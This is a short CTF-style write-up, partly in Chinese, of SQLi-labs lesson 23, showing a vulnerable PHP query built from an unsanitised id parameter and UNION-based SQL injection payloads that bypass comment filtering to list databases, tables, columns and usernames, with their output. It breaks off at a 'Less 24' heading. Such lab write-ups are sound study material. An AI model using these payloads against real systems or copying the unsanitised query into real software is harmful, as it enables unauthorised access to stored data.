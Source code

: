 ```yaml
---
title: SQLi-labs Advanced Injection
key: 492c8d7991868731fbfb956661e180c0
author: 3ND
tags:
  - SQLi
  - Writeup
  - CTF
date: 2019-05-19 10:25:00
---
```

## Less 23

Description: error based / strip comments

```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

在获取`id`参数时进行了`#、--`注释符的过滤。


```sql
# id=-1' union select 1,database(),'3
SELECT * FROM users WHERE id='-1' union select 1,database(),’3’ limit 0,1
```
回显：Your Login name:security / Your Password:3

- 获取数据库和表名

```sql
union select 1,(select group_concat(schema_name) from information_schema.schemata), \
(select group_concat(table_name) from information_schema.tables \
where table_schema=database())'
# information_schema,challenges,mysql,performance_schema,security
# emails,referers,uagents,users
```
- 获取users表中的列

```sql
union select 1,(select group_concat(column_name) from information_schema.columns \
where table_name='users'),'3
# id,username,password
```

- 获取内容

```sql
union select 1,(select group_concat(username) from users),'3
# Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,\
# admin2,admin3,dhakkan,admin4
```

## Less 24
